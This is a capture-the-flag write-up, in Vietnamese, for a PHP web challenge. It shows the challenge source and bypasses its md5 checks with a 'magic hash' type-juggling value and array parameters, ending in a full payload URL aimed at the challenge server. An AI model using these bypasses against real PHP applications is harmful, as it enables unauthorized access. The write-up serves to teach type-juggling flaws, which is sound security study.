 # Solution

Source code:

```php
<?php 
include "flag.php"; 
highlight_file(__FILE__); 
error_reporting(0); 
$str1 = $_GET['0']; 

if(isset($_GET['0'])){ 
    if($str1 == md5($str1)){ 
        echo $onion1; 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 

$str2 = $_GET['1']; 
$str3 = $_GET['2']; 

if(isset($_GET['1']) && isset($_GET['2'])){ 
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 
?> 
```

Để bypass đoạn check `$str1 == md5($str1)` mình dùng [php magic hash](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md)

=> `$str1=0e1137126905`

Flag1:

![flag1](https://user-images.githubusercontent.com/77546253/176494780-fa00ad7a-05f1-4f71-8805-ac2f5c4be44f.png)

Cuối cùng để bypass đoạn check thứ 2:

```php
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
```

Chỉ cần truyền vào 2 mảng khác nhau là xong:
final payload:
`http://103.245.249.76:49155/?0=0e1137126905&1[]=bla&2[]=blabla`

Full flag:

![flag2](https://user-images.githubusercontent.com/77546253/176494809-da98c1bd-08de-41f2-ac1e-f7bf31e823ab.png)
